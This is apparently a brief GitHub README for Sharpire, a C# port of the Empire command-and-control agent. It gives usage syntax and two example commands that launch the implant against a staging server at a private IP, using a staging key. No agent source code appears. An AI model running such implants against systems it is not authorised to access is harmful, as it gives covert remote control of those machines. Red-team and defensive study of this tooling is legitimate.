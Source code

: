 ## Sharpire - An implimentation of the Empire Agent in C#

sharpire.exe \<server\> \<stagingkey\> \<language\>



sharpire.exe "http://192.168.255.100:80" "aRAVQ_z?6PqujiWgf!eNwBZ&G)^h(L/|" "powershell"<br/>
sharpire.exe "http://10.2.2.100:80" "aRAVQ_z?6PqujiWgf!eNwBZ&G)^h(L/|" "dotnet"

*Note: This is still in testing. 

HTTPS connections don't seem to be working properly at the moment.
